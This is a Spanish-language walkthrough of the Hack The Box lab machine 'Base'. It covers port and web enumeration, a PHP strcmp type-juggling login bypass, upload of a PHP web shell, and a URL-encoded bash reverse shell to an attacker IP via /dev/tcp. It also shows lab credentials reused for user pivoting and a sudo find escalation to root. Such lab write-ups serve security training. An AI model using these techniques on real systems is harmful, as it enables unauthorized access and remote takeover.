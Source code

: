 ```yaml
---
title: Base
layout: page
permalink: /HTB_Base
---
```


<h2 class="amarillo">Base</h2>
<div id="imgs" style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/base.webp" alt="under" oncontextmenu="return false;">
</div>

Comenzamos encendiendo la máquina y nos da la dirección IP 10.129.3.122, enviaremos un paquete para saber a que nos estamos enfrentando:

```bash
❯ ping -c 5 10.129.3.122
PING 10.129.3.122 (10.129.3.122) 56(84) bytes of data.
64 bytes from 10.129.3.122: icmp_seq=1 ttl=63 time=115 ms
64 bytes from 10.129.3.122: icmp_seq=2 ttl=63 time=112 ms
64 bytes from 10.129.3.122: icmp_seq=3 ttl=63 time=109 ms
64 bytes from 10.129.3.122: icmp_seq=4 ttl=63 time=108 ms
64 bytes from 10.129.3.122: icmp_seq=5 ttl=63 time=111 ms
--- 10.129.3.122 ping statistics ---
5 packets transmitted, 5 received, 0% packet loss, time 4006ms
rtt min/avg/max/mdev = 108.120/110.928/115.225/2.492 ms
```

Con un TTL de 63 estamos frente a una máquina Linux.
<h2 class="amarillo">Enumeración</h2>

Procedemos a hacer un escaneo rápido y sigiloso con nmap para enumerar potenciales puertos abiertos:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.3.122 -oG allPorts
```

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/nmap.png" alt="under" oncontextmenu="return false;">
</div>

Vemos puerto `22` y `80` abiertos entonces continuamos con nmap para identificar la version y servicio que corren para estos puertos

```bash
nmap -p22,80 -sCV 10.129.3.122 -oN targeted
```

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/nmap2.png" alt="under" oncontextmenu="return false;">
</div>

<h1 class="amarillo">Explotación</h1>

Por ahora no podemos hacer mucho con lo que tenemos, entonces procedemos a hacer un poco de enumeración web

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/whatweb.png" alt="under" oncontextmenu="return false;">
</div>

Whatweb nos reporta algo interesante como un posible domino `base.htb`, vamos a quedarnos con esto por ahora en caso que la web no se resuelva podremos agregarlo al `/etc/hosts`.

Pero seguiremos enumerando un poco más con nmap el puerto `80` usando **http-enum**:

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/webscan.png" alt="under" oncontextmenu="return false;">
</div>

Pero no nos reporta nada entonces probamos con gobuster y un diccionario un poco más grande en cuanto a rutas respecta:

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/dirbust.png" alt="under" oncontextmenu="return false;">
</div>

Y vemos un `/login` como posible ruta en la web, con el diccionario big.txt encontramos que hay archivos como .htaccess y un .htpasswd que son potenciales archivos pero no tenemos acceso ya que el servidor devuelve un 403 y no hay forma de verlos.

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/dirbust2.png" alt="under" oncontextmenu="return false;">
</div>

Así continuamos accediendo directamente a la web

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/web.png" alt="under" oncontextmenu="return false;">
</div>

Enumerando un poco la web podremos ver que hay un apartado de login:

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/web2.png" alt="under" oncontextmenu="return false;">
</div>

Podemos probar con credenciales por defecto pero no funciona, si probamos un poco de Directory Listing en `/login/`:

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/web3.png" alt="under" oncontextmenu="return false;">
</div>

Podremos encontrar 2 archivos interesantes siendo por un lado el config.php y el login.php.swp (Este último se genera al cerrar de forma erronea o como copia de seguridad en caso de que algo pase durante la creación del archivo en su desarrollo utilizando vi,vim,nvim y deribados).

> Descargamos el login.php.swp para mirarlo desde consola:

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/swap.png" alt="under" oncontextmenu="return false;">
</div>

Al abrirlo vemos cadenas de texto php interesantes y un directorio `/upload.php`, nuestro pase de entrada a la web y eludir el panel de login esta en la función de php **strcmp**:

```php
if (strcmp($username , $_POST['username']) == 0) {
if (strcmp($password, $_POST['password']) == 0) {
```

<h1 class="verde">¿Por qué es un problema la función strcmp?</h1>

El desarrollador de la web esta usando strcmp para revisar la combinación de usuario y contraseña, esta función es usada para comparar strings y que devuelvan un '0' cuando ambos valores son identicos, sin embargo, es una práctica insegura y mucho más para la autenticación de formularios web ya que puede ser fácilmente burlada sin credenciales validas.

Esto se debe al hecho de strcmp se le da un array vacio para comparar con los datos almacenados, por tanto nunca retornara un NULL y el operador == en php solo valida la igualdad de las variables y NULL es igual a 0. Esto se conoce como **Type Juggling**.

<h1 class="amarillo">Para explotarlo usaremos Caido</h1>

Si interceptamos las peticiones y lanzamos un usuario y contraseña aleatorias el servidor nos responde con Wrong Usernade or Password

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/caido.png" alt="under" oncontextmenu="return false;">
</div>

Pero siguiendo el principio de **Type Juggling**:

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/caido2.png" alt="under" oncontextmenu="return false;">
</div>

Hemos entrado a la web y siguiendo el escaneo de rutas posibles donde teniamos un `/upload` dentro de la web una vez logueados encontramos una pestaña para subir archivos por lo que podemos probar:

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/test.png" alt="under" oncontextmenu="return false;">
</div>

Ahora vamos a subirlo a ver si se nos permite:

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/test2.png" alt="under" oncontextmenu="return false;">
</div>

Logramos subir el archivo, iremos al directorio de uploads a ver si lo allí lo encontramos:

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/test3.png" alt="under" oncontextmenu="return false;">
</div>

Como el servidor interpreta php deberíamos poder ver el contenido de phpinfo al entrar:

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/test4.png" alt="under" oncontextmenu="return false;">
</div>

Con esto hecho podremos probar a subir una shell en php:

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/test5.png" alt="under" oncontextmenu="return false;">
</div>

Y tendremos ejecución remota de comandos, entonces con esto podremos enviarnos una reverse shell:

```c
bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.12%2F443%200%3E%261
```

Y nos pondremos en escucha con ncat:

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/revshell.png" alt="under" oncontextmenu="return false;">
</div>

<h1 class="amarillo">Escalada</h1>

Una vez dentro del sistema podremos mirar el otro archivo llamado config.php con mejor detalle y encontramos lo siguiente:

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/credentials.png" alt="under" oncontextmenu="return false;">
</div>

```php
<?php
$username = "admin";
$password = "thisisagoodpassword";
```

No existe ningún usuario llamado admin pero si uno llamado john, podemos probar:

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/john.png" alt="under" oncontextmenu="return false;">
</div>

Y hemos logrado loguearnos como john haciendo **User Pivoting**, ahora solo queda listar los privilegios de los que dispone el usuario john para escalar privilegios a root (En este punto ya podremos leer la user.txt)

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/escalada.png" alt="under" oncontextmenu="return false;">
</div>

Y vemos que podemos ejecutar como root */usr/bin/find* y esto es de lo que nos aprovecharemos ya que podemos ejecutar comandos con find:

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/escalada2.png" alt="under" oncontextmenu="return false;">
</div>

Así habremos completado la máquina.

<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/VIP/Base/pwn.png" alt="under" oncontextmenu="return false;">
</div>
